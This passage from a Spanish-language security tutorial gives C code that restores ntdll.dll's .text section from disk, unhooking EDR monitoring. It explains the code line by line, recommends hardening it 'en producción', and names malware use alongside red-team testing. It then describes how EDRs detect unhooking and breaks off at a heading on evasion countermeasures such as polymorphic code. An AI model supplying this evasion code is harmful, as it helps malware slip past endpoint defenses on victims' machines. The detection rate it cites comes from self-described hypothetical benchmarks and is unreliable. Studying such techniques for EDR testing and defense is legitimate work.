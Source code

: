 ```c
if (dos->e_magic != IMAGE_DOS_SIGNATURE) { HeapFree(GetProcessHeap(), 0, pRawData); return FALSE; }

PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((PBYTE)pRawData + dos->e_lfanew);
if (nt->Signature != IMAGE_NT_SIGNATURE) { HeapFree(GetProcessHeap(), 0, pRawData); return FALSE; }

// Map sections
PIMAGE_SECTION_HEADER sections = IMAGE_FIRST_SECTION(nt);
for (int i = 0; i < nt->FileHeader.NumberOfSections; i++) {
    if (strcmp((char*)sections[i].Name, ".text") == 0) {
        DWORD oldProtect;
        PVOID targetAddr = (PBYTE)hNtdll + sections[i].VirtualAddress;
        SIZE_T size = sections[i].Misc.VirtualSize;
        if (VirtualProtect(targetAddr, size, PAGE_EXECUTE_READWRITE, &oldProtect)) {
            memcpy(targetAddr, (PBYTE)pRawData + sections[i].PointerToRawData, sections[i].SizeOfRawData);
            VirtualProtect(targetAddr, size, oldProtect, &oldProtect);
        }
    }
}
HeapFree(GetProcessHeap(), 0, pRawData);
```

Este ejemplo es básico; en producción, añadir checks de integridad con hashes. Explicación línea por línea: GetModuleHandle obtiene base address. CreateFile abre archivo. HeapAlloc reserva memoria. Parse valida PE. Loop copia secciones. VirtualProtect cambia permisos temporalmente.

Variaciones: Para 32-bit, ajustar offsets. Para Windows Server, paths diferentes.

Casos de uso: En malware, unhooking permite llamadas limpias. En red teaming, para testing EDR.

#### Detección de Unhooking por EDRs via Memory Scanning

Los EDRs modernos emplean técnicas avanzadas de memory scanning para detectar unhooking, ya que este proceso altera el estado de memoria de DLLs críticas como ntdll.dll. El memory scanning implica escanear periódicamente o en respuesta a eventos sospechosos las regiones de memoria de procesos, comparando el contenido actual con versiones conocidas o hashes precomputados.

Mecanismos de Detección:
- **Integrity Checks:** EDRs mantienen hashes (e.g., SHA-256) de secciones críticas de ntdll.dll. Después de unhooking, el hash de .text cambia, triggering una alerta. Por ejemplo, si el EDR detecta que NtAllocateVirtualMemory ya no tiene el hook esperado, puede re-hookear o bloquear el proceso.
- **Signature-Based Scanning:** Buscan patrones de modificación, como cambios en bytes iniciales de funciones Nt*. Si el prólogo de una función Nt* no coincide con la versión hookeada esperada, se marca como sospechoso.
- **Anomaly Detection:** Monitorean cambios en protecciones de memoria (e.g., via VirtualProtect calls) o accesos inusuales a archivos de sistema (e.g., leyendo ntdll.dll desde disco).
- **Behavioral Heuristics:** Combinan scanning con comportamiento; e.g., si un proceso unhookea y luego ejecuta syscalls directos, aumenta la puntuación de amenaza.

En benchmarks hipotéticos, EDRs como Defender detectan unhooking en ~80% de casos via scanning cada 5-10 segundos, con falsos positivos bajos.

#### Contramedidas: Timing Attacks y Polymorphic Code
